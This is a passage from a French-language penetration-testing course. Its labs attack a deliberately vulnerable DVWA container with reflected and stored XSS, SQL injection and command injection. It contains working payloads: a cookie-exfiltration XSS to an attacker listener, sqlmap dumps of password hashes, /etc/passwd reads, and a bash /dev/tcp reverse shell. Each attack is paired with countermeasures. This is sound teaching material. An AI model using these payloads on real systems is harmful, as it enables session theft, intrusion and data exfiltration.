### Checkpoints

- [ ] nmap : port 8088 ouvert, Apache détecté
- [ ] gobuster : /login.php, /vulnerabilities, /config trouvés
- [ ] Connexion DVWA réussie (cookie `security=low` dans `/tmp/dvwa_cookie.txt`)

### 🔒 Contre-mesure ([M1031](https://attack.mitre.org/mitigations/M1031/) Network Intrusion Prevention + [M1037](https://attack.mitre.org/mitigations/M1037/) Filter Network Traffic)

**Objectif :** Réduire la surface d'attaque pour empêcher la reconnaissance ennemie.

| Mitigation | Action |
|---|---|
| [**M1037**](https://attack.mitre.org/mitigations/M1037/) Filter Network Traffic | `ufw default deny incoming` — limiter les ports exposés |
| [**M1042**](https://attack.mitre.org/mitigations/M1042/) Disable or Remove Feature or Program | `Options -Indexes` dans Apache — gobuster ne voit plus les dossiers |
| [**M1031**](https://attack.mitre.org/mitigations/M1031/) Network Intrusion Prevention | Snort/Suricata — détecter les patterns de scan nmap et gobuster |

**Où ?** Terminal 1

**Actions :**
1. Désactiver le directory listing Apache dans le conteneur DVWA
2. Vérifier que gobuster ne peut plus énumérer

**Commande :**
```bash
docker exec dvwa-target bash -c "echo 'ServerName localhost' >> /etc/apache2/apache2.conf && sed -i 's/Options Indexes FollowSymLinks/Options FollowSymLinks/' /etc/apache2/apache2.conf && apache2ctl restart"
# → AH00558: apache2: Could not reliably determine... (warning, OK)
docker exec dvwa-target bash -c "mkdir -p /var/www/html/test-empty"
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8088/test-empty/"
# → 403 (directory listing désactivé)
docker exec dvwa-target bash -c "rm -rf /var/www/html/test-empty"
```

**Résultat attendu :** `403` au lieu de `200` sur un dossier sans index. gobuster ne liste plus que les pages avec un fichier index.

### Résultat attendu

- [ ] Fichier `nmap_dvwa.txt` contenant le résultat du scan (port 8088 ouvert, Apache détecté)
- [ ] Fichier `gobuster_dvwa.txt` listant les répertoires découverts (`/login.php`, `/vulnerabilities/`, `/config/`)
- [ ] Cookie de session sauvegardé dans `/tmp/dvwa_cookie.txt` avec le niveau `security=low`
- [ ] Savoir interpréter un scan nmap : port, état, service, version
- [ ] Comprendre l'énumération de répertoires avec gobuster et une wordlist
- [ ] Maîtriser l'authentification automatisée via curl avec gestion des cookies

---

## LAB-3 — Exploitation XSS

### Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8088 | [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise |

### Contexte technique

Reflected XSS injecte du code dans l'URL, exécuté immédiatement. Stored XSS persiste en base de données. Dans un vrai pentest, on montre les deux car l'impact diffère : Reflected cible un utilisateur, Stored toutes les visites.

### Étape 1 — Reflected XSS — [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise

**Objectif :** Confirmer la présence d'une faille XSS réfléchie en injectant un script JavaScript qui s'exécute côté navigateur.

**Où ?** Firefox → http://localhost:8088 → **DVWA Security** (s'assurer que le niveau est `low`) → **XSS (Reflected)** → champ "What's your name?"

**Pourquoi ça marche ?** Le code PHP de DVWA prend l'entrée du champ `name` et l'affiche directement sans échapper les caractères HTML :
```php
echo "Hello $name";  // ← Pas de htmlspecialchars() : <script> est interprété
```

**Actions :**
1. Ouvrir DVWA dans Firefox, onglet **XSS (Reflected)**
2. Entrer le payload suivant dans le champ "What's your name?"
3. Cliquer **Submit**

**Payload :**
```html
<script>alert('XSS fonctionnel')</script>
```

**Résultat attendu :** Une popup JavaScript contenant "XSS fonctionnel" s'affiche dans le navigateur. La faille est confirmée ([T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise).

**Explication :** Le serveur renvoie `<script>alert('XSS fonctionnel')</script>` dans le HTML de la page réponse. Le navigateur l'exécute comme du code JavaScript légitime. En conditions réelles, cette popup serait remplacée par un script d'exfiltration du cookie de session (prochaine étape).

---

### Étape 2 — Vol de cookie — [T1539](https://attack.mitre.org/techniques/T1539/) Steal Web Session Cookie

**Objectif :** Exfiltrer le cookie de session DVWA via un payload XSS, en utilisant un serveur HTTP contrôlé par l'attaquant.

**Où ?** Deux terminaux sont nécessaires :
- **Terminal 1** : sert de récepteur HTTP (écoute les requêtes contenant le cookie)
- **Terminal 2** : injecte le payload XSS dans DVWA

**Actions :**

1. **Terminal 1** — Démarrer le serveur HTTP qui capturera le cookie :
```bash
cd rendu_labs/jour-01
python3 -m http.server 8000
```
Le terminal affiche : `Serving HTTP on 0.0.0.0 port 8000 ...` et reste en attente.

2. **Terminal 2** — Récupérer l'IP de Kali pour la mettre dans le payload :
```bash
hostname -I
# → 192.168.X.X (ou 10.0.X.X, selon votre réseau)
```

3. **Terminal 2** — Dans Firefox → **XSS (Reflected)**, entrer le payload suivant en remplaçant `<KALI_IP>` par l'IP obtenue :
```html
<script>new Image().src='http://<KALI_IP>:8000/?cookie='+document.cookie</script>
```

**Résultat attendu sur Terminal 1 :**
```
GET /?cookie=PHPSESSID=abc123def456 HTTP/1.1
```

**Ce qui s'est passé :**
1. Le navigateur exécute le payload XSS
2. `new Image().src = ...` déclenche une requête HTTP vers `<KALI_IP>:8000` sans que l'utilisateur ne voie rien
3. `document.cookie` est automatiquement ajouté à l'URL : le cookie est dans la requête

**Explication :** Le cookie `PHPSESSID` identifie la session. En le copiant dans un autre navigateur, un attaquant peut usurper la session sans connaître le mot de passe. L'impact est critique : accès complet au compte de la victime.

---

### Étape 3 — Stored XSS — [T1189](https://attack.mitre.org/techniques/T1189/) Drive-by Compromise

**Objectif :** Injecter un script XSS persistant qui s'exécute sur chaque visite de la page Guestbook.

**Où ?** Firefox → DVWA → **XSS (Stored)** → formulaire "Name" + "Message"

**Pourquoi ça marche ?** Contrairement au Reflected XSS (jetable, lié à un lien piégé), le Stored XSS enregistre le script **dans la base de données** MySQL de DVWA. Chaque visiteur de la page exécute le script automatiquement.

**Actions :**
1. Dans **Name**, entrer : `Attaquant`
2. Dans **Message**, entrer le payload
3. Cliquer **Sign Guestbook**

**Payload :**
```html
<script>alert('Stored XSS')</script>
```

**Résultat attendu :** Une popup "Stored XSS" s'affiche **à chaque chargement** de la page Guestbook. Le script reste actif même après rechargement — il est stocké en base de données.

**Explication :** L'impact est plus large que le Reflected XSS : un seul dépôt infecte **tous les visiteurs** de la page (administrateurs, modérateurs, clients). Dans un pentest réel, on exploite le Stored XSS pour cibler les back-offices d'administration.

### 🔒 Contre-mesure ([M1013](https://attack.mitre.org/mitigations/M1013/) Application Developer Guidance + [M1054](https://attack.mitre.org/mitigations/M1054/) Software Configuration)

**Objectif :** Bloquer les attaques XSS en échappant les entrées HTML et en rendant les cookies inaccessibles au JavaScript.

| Attaque | Défense | Correctif |
|---|---|---|
| Reflected/Stored XSS | `htmlspecialchars()` | Échappe `<`, `>`, `"`, `'` dans les entrées |
| Vol de cookie | Cookie `HttpOnly` | `session.cookie_httponly = 1` — `document.cookie` ne voit plus le cookie |

**Où ?** Terminal 1

**Actions :**
1. Activer le flag `HttpOnly` sur les cookies de session PHP dans le conteneur DVWA
2. Vérifier que le cookie n'est plus accessible via JavaScript

**Commande :**
```bash
docker exec dvwa-target bash -c "
  echo 'session.cookie_httponly = 1' >> /etc/php/*/apache2/php.ini
  apache2ctl restart
"
docker exec dvwa-target bash -c "grep 'session.cookie_httponly' /etc/php/*/apache2/php.ini"
# → session.cookie_httponly = 1

curl -s -b /tmp/dvwa_cookie.txt \
  "http://localhost:8088/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(1)%3C%2Fscript%3E" 2>/dev/null \
  | grep -o "&lt;script&gt;\|alert"
# → &lt;script&gt;   (HTML échappé, pas exécuté)
```

**Résultat attendu :** La commande grep retourne `&lt;script&gt;` (code HTML échappé visible). Le script n'est plus exécuté par le navigateur. Le cookie étant `HttpOnly`, le payload `document.cookie` ne renvoie rien.

**Explication :** `htmlspecialchars()` transforme `<script>` en `&lt;script&gt;` — le navigateur affiche le texte au lieu d'exécuter le code. Le flag `HttpOnly` supprime le cookie de `document.cookie` — même si une XSS passe, l'attaquant ne peut plus voler la session.

### Résultat attendu

- [ ] Reflected XSS : popup `alert()` déclenchée dans le navigateur
- [ ] Stored XSS : popup `alert()` déclenchée à chaque rafraîchissement de la page
- [ ] Cookie volé via le payload `new Image().src` et reçu sur l'écouteur Python
- [ ] Comprendre la différence entre XSS Reflected (dans l'URL, one-shot) et Stored (en base, permanent)
- [ ] Savoir configurer un écouteur HTTP avec Python pour exfiltrer des données
- [ ] Connaître les défenses : `htmlspecialchars()`, `HttpOnly`, CSP

---

## LAB-4 — Injection SQL avec sqlmap

### Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8088 | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App |

### Contexte technique

La requête `SELECT first_name, last_name FROM users WHERE user_id = '$id'` devient `WHERE user_id = '1' OR '1'='1' #'` → retourne tous les utilisateurs. sqlmap automatise l'extraction complète.

### Étape 1 — Test manuel — [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application

**Objectif :** Confirmer que le paramètre `id` de la page SQLi est injectable, en provoquant l'affichage de tous les utilisateurs via une condition toujours vraie.

**Où ?** Terminal 1

**Prérequis :** Le fichier `/tmp/dvwa_cookie.txt` doit contenir le cookie de session + `security=low` (créé au LAB-2).

> 💡 **Pourquoi un cookie pour attaquer la base de données ?**  
> Le cookie ne sert pas à attaquer la base — il sert à **prouver qu'on est authentifié** sur DVWA.  
> Sans cookie de session (`PHPSESSID`), DVWA nous voit comme un visiteur anonyme et redirige vers `login.php`. La page SQLi n'est jamais atteinte → impossible d'injecter quoi que ce soit.  
> La variable `security=low` désactive les fonctions de filtrage PHP (`mysql_real_escape_string()`, `htmlspecialchars()`) dans le code de DVWA. Sans `security=low`, l'injection est bloquée par le code lui-même.  
> **En résumé :** le cookie = la clé d'entrée dans l'immeuble. L'injection SQL = ce qu'on fait une fois à l'intérieur. Les deux sont nécessaires.

> 🔄 **Cookie expiré ?** Le cookie DVWA expire après quelques minutes d'inactivité. Pas besoin de refaire tout le LAB-2 — une commande suffit pour le renouveler :
> ```bash
> source env.sh && bash labs_resolution/jour-01/setup_dvwa.sh
> ```
> Ce script refait la connexion (extraction du token CSRF + login + security=low) et écrase `/tmp/dvwa_cookie.txt` avec un cookie frais.

**Actions :**
1. Envoyer une requête avec `id=1' OR '1'='1' #` (encodé en URL) au lieu de `id=1`
2. Compter le nombre d'occurrences de "First name" dans la réponse

**Commande :**
```bash
curl -s -b /tmp/dvwa_cookie.txt \
  "http://localhost:8088/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271%27+%23&Submit=Submit" \
  | grep -c "First name"
# → 5
```
Au lieu de `1` (un seul utilisateur normalement). Le flag `-b` envoie le cookie de session. Les caractères `%27` = `'`, `%20` = espace, `%23` = `#` sont l'encodage URL des caractères spéciaux.

> 💡 **Pourquoi encodage URL ?** Dans une URL, certains caractères ont une signification spéciale : `'` peut casser la chaîne de requête, `#` est le marqueur de fragment (tout ce qui suit est ignoré par le navigateur/curl et jamais envoyé au serveur), les espaces sont interdits. En les encodant en `%XX`, on les transmet **littéralement** au serveur. Les curls avec `--data-urlencode` (utilisé dans les scripts) le font automatiquement.

**Explication :** La requête SQL devient `SELECT * FROM users WHERE user_id = '1' OR '1'='1' #'`. Le `OR '1'='1'` est toujours vrai, donc la base retourne **tous les utilisateurs**. Le `#` commente le reste de la requête pour éviter les erreurs SQL. C'est le test de base de toute injection SQL ([T1190](https://attack.mitre.org/techniques/T1190/)).

---

### Étape 2 — sqlmap : dumper les utilisateurs — [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application

**Objectif :** Automatiser l'extraction des utilisateurs et de leurs hashs de mots de passe avec sqlmap.

**Où ?** Terminal 1 — `cd rendu_labs/jour-01`

**Actions :**
1. Lancer sqlmap sur le point d'injection détecté
2. Cibler la base `dvwa`, la table `users`, les colonnes `user,password`

> 🔄 **Cookie expiré (HTTP 302) ?** Le cookie DVWA expire après quelques minutes. Pas besoin de refaire le LAB-2 — renouvelez-le avec :
> ```bash
> source env.sh && bash labs_resolution/jour-01/setup_dvwa.sh
> ```
> Ceci écrase `/tmp/dvwa_cookie.txt` avec un cookie frais (login + `security=low`).

**Commande :**
```bash
cd rendu_labs/jour-01
SESSID=$(grep PHPSESSID /tmp/dvwa_cookie.txt | awk '{print $NF}')
sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="security=low; PHPSESSID=$SESSID" \
  -D dvwa -T users -C user,password --dump --batch --no-cast --threads=3
```

**Résultat attendu :**
```
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```

**Explication :** `--cookie="security=low; PHPSESSID=$SESSID"` transmet la session directement (alternative à `--load-cookies` qui échoue parfois avec le format Netscape). `-D dvwa -T users -C user,password` cible la table et les colonnes à extraire. `--dump` vide le contenu. `--batch` répond automatiquement "oui" aux questions de sqlmap. Les hashs sont au format MD5 non salé — vulnérable au craquage (voir LAB-6).

---

### Checkpoints

- [ ] SQLi manuelle : `grep -c "First name"` retourne 5
- [ ] sqlmap : 5 utilisateurs extraits avec hashs MD5

### 🔒 Contre-mesure ([M1013](https://attack.mitre.org/mitigations/M1013/) Application Developer Guidance + [M1041](https://attack.mitre.org/mitigations/M1041/) Encrypt Sensitive Information)

**Objectif :** Remplacer la concaténation SQL par des requêtes préparées pour neutraliser les injections.

**Où ?** Terminal 1

**Actions :**
1. Comprendre la différence entre requête concaténée et requête préparée
2. Vérifier qu'après correction sqlmap ne détecte plus l'injection

**Correction avec scripts (disponibles dans `labs_resolution/jour-01/`) :**

```bash
# 1. fix_sqli.sh — Remplace la concaténation SQL par des requêtes préparées
#    Code vulnérable : $query = "SELECT * FROM users WHERE user_id = '$id'";
#    Code corrigé   : $stmt = mysqli_prepare($db, "SELECT ... WHERE user_id = ?");
#                     mysqli_stmt_bind_param($stmt, "s", $id);
bash labs_resolution/jour-01/fix_sqli.sh

# 2. test_fix_sqli.sh — Vérifie que l'injection est bloquée
#    Test manuel + sqlmap → "not injectable"
bash labs_resolution/jour-01/test_fix_sqli.sh

# 3. restore_sqli.sh — RESTAURE la faille (concaténation d'origine) pour s'entraîner
bash labs_resolution/jour-01/restore_sqli.sh
```

**Les 3 scripts :**
- **`fix_sqli.sh`** : corrige la faille dans le conteneur DVWA en remplaçant la concaténation SQL par des `mysqli_prepare()` + `bind_param()` → l'entrée utilisateur est traitée comme une donnée, pas comme du code SQL
- **`test_fix_sqli.sh`** : lance une injection de test (`1' OR '1'='1'`) et sqlmap pour confirmer que la correction bloque toute injection → `not injectable`
- **`restore_sqli.sh`** : remet la version vulnérable d'origine (concaténation dans la requête) pour permettre de re-tester l'exploitation

**Explication :** Avec les requêtes préparées, la valeur de `$id` est transmise **séparément** du code SQL. Même si `$id` contient `1' OR '1'='1'`, la base de données ne l'interprète pas comme du SQL — c'est une chaîne de caractères inoffensive. Ajoutez un WAF (ModSecurity) et du bcrypt pour les mots de passe, et la défense est complète.

### Résultat attendu

- [ ] `bash fix_sqli.sh` → injection `' OR '1'='1'` retourne 1 résultat (au lieu de 5)
- [ ] `bash test_fix_sqli.sh` → sqlmap confirme `not injectable`
- [ ] `bash restore_sqli.sh` → la faille est réactivée pour s'entraîner
- [ ] Comprendre le principe de l'injection SQL : `' OR '1'='1' #` neutralise la clause WHERE
- [ ] Savoir utiliser sqlmap avec un cookie de session et les options `-D`, `-T`, `-C`, `--dump`
- [ ] Connaître les défenses : requêtes préparées PDO, WAF, bcrypt

---

## LAB-5 — Command Injection + Reverse Shell

### Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 30 min | dvwa :8088 | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell |

### Contexte technique

Le code PHP vulnérable dans `vulnerabilities/exec/source/low.php` fait ceci :

```php
$target = $_REQUEST[ 'ip' ];                    // ex: "127.0.0.1; whoami"
$cmd     = "ping -c 4 " . $target;              // concaténation → "ping -c 4 127.0.0.1; whoami"
$output  = shell_exec( $cmd );                  // exécution brute dans le shell système
echo $output;                                   // affiche le résultat
```

Le point (`.`) en PHP concatène des chaînes. Donc si l'utilisateur envoie `ip=127.0.0.1; whoami`, la commande exécutée par le shell est :

```
ping -c 4 127.0.0.1; whoami
```

Le `;` est un **séparateur de commandes en bash**. Il dit au shell : "la première commande est finie, exécute la suivante". Le shell exécute donc **deux** commandes à la suite :
1. `ping -c 4 127.0.0.1` — le ping normal
2. `whoami` — la commande injectée, qui s'exécute sur le serveur

Résultat : on force le serveur à exécuter n'importe quelle commande système en la collant après `;`.

> 💡 **Autres métacaractères bash :** `;` n'est pas le seul séparateur. `|` (pipe) connecte la sortie d'une commande à l'entrée de la suivante. `&&` exécute la suivante seulement si la précédente a réussi. `` ` `` (backticks) exécute une commande et insère son résultat. Tous fonctionnent ici car PHP ne filtre rien.

---

### Étape 1 — CMDi basique (curl) — [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell

**Objectif :** Exécuter des commandes système arbitraires via le paramètre `ip` du formulaire `ping`.

**Où ?** Terminal 1

**Prérequis :** Cookie DVWA valide dans `/tmp/dvwa_cookie.txt` (cf. setup_dvwa.sh).

> 💡 **Où est le formulaire ?** L'outil "Command Injection" de DVWA est à l'URL `/vulnerabilities/exec/`. Il attend un champ `ip` et un bouton `Submit`. La requête est en POST. C'est la même logique que les labs précédents : on envoie une requête HTTP avec le cookie de session.

**Actions :**
1. Envoyer une requête POST normale → contenu du ping
2. Injecter `; whoami` après l'IP → la commande est exécutée
3. Tester `; ls /etc/`, `; cat /etc/passwd`

**Commande :**
```bash
cd rendu_labs/jour-01

# Test normal : un ping simple
curl -s -b /tmp/dvwa_cookie.txt \
  --data "ip=127.0.0.1&Submit=Submit" \
  "http://localhost:8088/vulnerabilities/exec/" | grep -o "PING\|ping"
# → PING  (le ping s'exécute normalement)

# Injection : le ; chaîne une deuxième commande
curl -s -b /tmp/dvwa_cookie.txt \
  --data "ip=127.0.0.1; whoami&Submit=Submit" \
  "http://localhost:8088/vulnerabilities/exec/" | grep -o "www-data\|PING"
# → PING
# → www-data  (la commande whoami a été exécutée sur le serveur)

# Lire le fichier passwd
curl -s -b /tmp/dvwa_cookie.txt \
  --data "ip=127.0.0.1; cat /etc/passwd&Submit=Submit" \
  "http://localhost:8088/vulnerabilities/exec/" | grep -o "root:x"
# → root:x  (contenu du fichier passwd)
```

**Résultat attendu :** La réponse contient à la fois la sortie de `ping` ET le résultat de la commande injectée (`www-data`, `root:x`, etc.).

**Explication :** PHP fait `shell_exec("ping -c 4 " . $target)`. Avec `ip=127.0.0.1; whoami`, la chaîne exécutée est `ping -c 4 127.0.0.1; whoami`. Le shell exécute `ping`, puis `whoami`. Le résultat des deux commandes est renvoyé dans la réponse HTTP.

---

### Étape 2 — Reverse shell — [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell

**Objectif :** Obtenir un **shell interactif** permanent — on tape les commandes sur Kali, elles s'exécutent sur le serveur DVWA.

> 💡 **Pourquoi un reverse shell et pas juste `; whoami` ?** Avec `; whoami`, on exécute une commande à la fois, et on voit le résultat dans la page web. Avec un reverse shell, on a un terminal complet : on peut enchaîner des commandes, naviguer, éditer des fichiers, lancer d'autres outils. C'est bien plus puissant.

**Concept :**
- **Kali** = cliente (écoute sur un port)
- **DVWA** = serveur (se connecte à Kali)
- Le **payload** injecté dans le champ `ip` dit au serveur : « connecte-toi à l'adresse `IP_KALI:PORT` et donne-moi un shell »

```
┌─────────┐    curl injecte payload     ┌──────────┐
│  Kali   │ ──────────────────────────→ │  DVWA    │
│ nc -lvnp│ ←───── TCP connect ─────── │ (bash)   │
│  4444   │    (reverse shell)          │          │
└─────────┘                             └──────────┘
```

**Où ?** Deux terminaux :

| Terminal | Rôle |
|----------|------|
| Terminal 1 | **Écouteur** — attend la connexion du serveur (`nc -lvnp 4444`) |
| Terminal 2 | **Injection** — envoie le payload avec `curl` |

**Prérequis :** Le cookie de session DVWA doit être valide. Si vous ne l'avez pas :
```bash
source env.sh        # depuis la racine du repo
bash labs_resolution/jour-01/setup_dvwa.sh
```
Ceci crée `/tmp/dvwa_cookie.txt` avec le cookie de session et passe le niveau en `low`.

---

**Terminal 1** — Lancer l'écouteur netcat (À FAIRE **AVANT** l'injection) :

```bash
nc -lvnp 4444
```
```
Listening on 0.0.0.0:4444
```
Ne fermez pas ce terminal — il attend la connexion.

> ⚠️ Si netcat refuse le port, un autre processus l'utilise déjà. Changez le port (ex: `4445`) dans les deux commandes (nc ET curl).

---

**Terminal 2** — Trouver l'IP de Kali sur le réseau Docker :

L'interface `docker0` est le pont réseau entre Kali et ses conteneurs. Le conteneur DVWA verra Kali à cette adresse.

```bash
ip addr show docker0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
# → 172.17.0.1
```

Si la commande échoue (`docker0` introuvable), Kali est probablement en Docker rootless. Utilisez alors :
```bash
hostname -I | awk '{print $1}'
```

> 💡 **Pourquoi `172.17.0.1` ?** Docker crée un réseau privé `172.17.0.0/16`. L'hôte (Kali) est `172.17.0.1` (la passerelle), les conteneurs reçoivent des IP dans ce réseau (`172.17.0.2`, `172.17.0.3`, etc.). Ici le conteneur DVWA a reçu `172.18.0.5` (via `docker-compose`), mais il voit toujours sa passerelle sur `172.17.0.1`.

Vérifions que l'écouteur est bien prêt :

```bash
nc -z 127.0.0.1 4444 && echo "✅ Écouteur OK" || echo "❌ Lance d'abord nc -lvnp 4444"
```
Si c'est `❌`, retournez au Terminal 1 et lancez `nc -lvnp 4444` d'abord.

---

**Terminal 2** — Injecter le reverse shell :

```bash
curl -s -b /tmp/dvwa_cookie.txt \
  --data-urlencode "ip=127.0.0.1; bash -c 'exec bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'" \
  --data-urlencode "Submit=Submit" \
  "http://localhost:8088/vulnerabilities/exec/"
```

> 🔄 Si votre IP docker0 n'est pas `172.17.0.1`, remplacez-la dans le payload ci-dessus.

**Explication du payload ligne par ligne :**

| Partie | Rôle |
|--------|------|
| `127.0.0.1;` | Exécute d'abord `ping -c 4 127.0.0.1` (normal, ne dérange pas) |
| `bash -c '...'` | Lance un nouveau bash — le shell par défaut du conteneur (dash) ne supporte pas `/dev/tcp` |
| `exec bash -i` | Remplace le processus par un bash interactif (le `exec` évite un processus zombie) |
| `>& /dev/tcp/172.17.0.1/4444` | Redirige stdout et stderr vers la socket TCP (la sortie part vers netcat) |
| `0>&1` | Redirige stdin depuis la même socket (les commandes tapées dans netcat arrivent dans bash) |

**Comment curl envoie ça au serveur :** `--data-urlencode` transforme les caractères spéciaux (`;`, `>`, `&`) en format URL (`%3B`, `%3E`, `%26`). Le serveur reçoit une requête POST normale, sans que le `&` du payload ne soit interprété comme séparateur de paramètres.

---

**Résultat attendu — Terminal 1 (netcat) :**

```
connect to [172.17.0.1] from (UNKNOWN) [172.18.0.5] 35178
```

| Adresse | Qui ? | Pourquoi ? |
|---------|-------|------------|
| `172.17.0.1` | **Kali** — interface `docker0` | Le conteneur s'est connecté **à** cette IP : c'est la passerelle Docker |
| `172.18.0.5` | **DVWA** — le conteneur | Netcat affiche **d'où vient** la connexion : l'IP du conteneur |

Ensuite, le prompt du reverse shell apparaît (après 1-2 secondes) :
```
bash: cannot set terminal process group (302): Inappropriate ioctl for device
bash: no job control in this shell
www-data@<hostname>:/var/www/html/vulnerabilities/exec$ █
```

> ⚠️ **Si rien ne s'affiche dans netcat :** attendez 2 secondes et tapez `whoami` puis Entrée. Le prompt ne s'affiche pas toujours immédiatement, mais les commandes fonctionnent.

**Vous êtes dans le serveur DVWA.** Tapez des commandes :

| Commande | Réponse attendue |
|----------|------------------|
| `whoami` | `www-data` |
| `id` | `uid=33(www-data) gid=33(www-data) groups=33(www-data)` |
| `pwd` | `/var/www/html/vulnerabilities/exec` |
| `ls -la /var/www/html/` | Liste des fichiers du site DVWA |

> Les warnings `cannot set terminal process group` et `no job control` sont normaux : le reverse shell n'a pas de PTY (pseudo-terminal). Les commandes s'exécutent quand même.

**Explication du payload `bash -c 'exec bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'` :**
| Partie | Rôle |
|--------|------|
| `bash -c '...'` | Exécute la chaîne dans un nouveau bash (le shell par défaut du conteneur est `dash`, qui n'a pas `/dev/tcp`) |
| `exec` | Remplace le processus courant par `bash -i` (évite un processus orphelin) |
| `bash -i` | Démarre un shell bash **interactif** (attend des commandes) |
| `>& /dev/tcp/172.17.0.1/4444` | Redirige **stdout (sortie) et stderr (erreurs)** vers la socket TCP |
| `0>&1` | Redirige **stdin (entrée clavier)** vers la même socket → nos commandes tapées dans netcat partent vers le serveur |

> 💡 **`/dev/tcp` n'est PAS un fichier :** C'est une fonctionnalité intégrée de bash. Quand bash voit `/dev/tcp/host/port`, il ouvre une connexion TCP vers `host:port`. Pas besoin de netcat sur le serveur cible.

---

### 🔒 Contre-mesure ([M1013](https://attack.mitre.org/mitigations/M1013/) Application Developer Guidance + [M1018](https://attack.mitre.org/mitigations/M1018/) User Account Management)

**Objectif :** Bloquer l'exécution de commandes système en désactivant les fonctions PHP dangereuses.

**Où ?** Terminal 1

**Actions :**
1. Ajouter `shell_exec`, `system`, `exec`, etc. dans la directive `disable_functions` du `php.ini`
2. Redémarrer Apache
3. Vérifier que les fonctions sont bien désactivées
4. Re-tester l'injection de commande

**Commande :**
```bash
docker exec dvwa-target bash -c "
  sed -i 's/disable_functions =.*/disable_functions = system,exec,passthru,shell_exec,popen,proc_open/' /etc/php/*/apache2/php.ini
  apache2ctl restart
"
docker exec dvwa-target bash -c "php -r 'echo function_exists(\"shell_exec\") ? \"actif\" : \"inactif\";'"
# → inactif

curl -s "http://localhost:8088/vulnerabilities/exec/" \
  --data "ip=127.0.0.1;whoami&Submit=Submit" \
  -b /tmp/dvwa_cookie.txt 2>/dev/null | grep -c "www-data"
# → 0 (plus de résultat)
```

**Résultat attendu :** `shell_exec` affiche `inactif`. La commande `whoami` n'est plus exécutée : `grep -c` retourne `0`.

**Explication :** La directive `disable_functions` empêche PHP d'appeler ces fonctions au runtime. Même si le code vulnérable appelle `shell_exec()`, PHP ne fait rien et retourne `null`. Le payload `;whoami` passe toujours dans la requête HTTP, mais le shell système n'est plus invoqué.

### Résultat attendu

- [ ] CMDi basique : `; whoami` retourne `www-data` dans la réponse curl
- [ ] Reverse shell : connexion netcat reçue, shell interactif avec `www-data`
- [ ] Contre-mesure : `disable_functions` → `shell_exec` inactif, `grep -c` retourne 0
- [ ] Comprendre les métacaractères shell (`;`, `|`, `&&`) et leur effet dans `shell_exec()`
- [ ] Maîtriser le payload reverse shell bash : `/dev/tcp`, redirections `>&` et `0>&1`
- [ ] Connaître les défenses : `disable_functions`, whitelist de commandes, conteneur non-privilégié

> **☕ Pause recommandée :** Le LAB-6 ci-dessous est le plus long et le plus dense de la journée. Prenez 5-10 minutes avant de l'attaquer — vous allez enchaîner injection SQL sur 3 points d'entrée, extraction automatisée avec sqlmap, et cracking de mots de passe. Un esprit reposé est plus efficace pour analyser les résultats.

---

## LAB-6 — SQLi avancée : Trouver, Exploiter, Craquer

### Fiche

| Durée | Conteneur | Dossier | Techniques |
|---|---|---|---|
| 1h | sqli-app (port 8083) | `rendu_labs/jour-01/` | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App + [T1110.001](https://attack.mitre.org/techniques/T1110/001/) Password Guessing |

### Contexte métier

Dans un vrai pentest, 80% du temps est consacré à **trouver** l'injection avant de l'exploiter. Une fois les données exfiltrées, il faut **craquer les hashs** pour prouver l'impact au client. Ce lab vous fait faire les 3 étapes : trouver → exploiter → craquer.

### Contexte technique — Les 3 types d'injection

L'application `sqli-app` (http://localhost:8083) expose 3 points d'injection différents :

| Point d'injection | Type SQL | Difficile à trouver ? | Payload test |
|---|---|---|---|
| `?id=` (paramètre numérique) | Numeric | Facile | `1 OR 1=1` |
| `username` (champ login) | String (single quote) | Moyen | `admin' --` |
| `?filter=` (LIKE) | String (% wildcard) | Difficile | `%' UNION SELECT...` |

**Pourquoi SQLite ?** Les principes d'injection SQL sont identiques quel que soit le SGBD. Seule la syntaxe des commandes système change (version(), @@version, sqlite_version()). SQLite permet un conteneur léger sans MySQL séparé.

> 💡 **Numeric vs String : pourquoi tant de `'` ?**  
> La différence vient du code PHP derrière la requête :  
> - **Numeric** : `WHERE id = $id` → pas de guillemets autour de `$id`. Injection : `1 OR 1=1` (pas de `'` nécessaire).  
> - **String** : `WHERE username = '$u'` → des guillemets simples autour de `$u`. Injection : `admin' --` (il faut un `'` pour fermer la chaîne, puis `--` pour commenter le `'` fermant).  
> Si vous mettez des `'` dans une injection numérique, ça casse la requête. Si vous n'en mettez pas dans une string, votre injection reste coincée dans la chaîne. Regardez toujours le code PHP ou le comportement avec `AND 1=2` pour deviner le type.

### Prérequis

**Objectif :** Démarrer le conteneur `sqli-app` et vérifier qu'il répond sur le port 8083.

**Où ?** Terminal 1

**Actions :**
1. Démarrer le service `sqli-app` avec Docker Compose
2. Vérifier la réponse HTTP avec une requête HEAD
3. Créer le dossier de rendu `rendu_labs/jour-01/`

**Commande :**
```bash
docker compose up -d sqli-app
curl -I http://localhost:8083/
mkdir -p rendu_labs/jour-01 && cd rendu_labs/jour-01
```

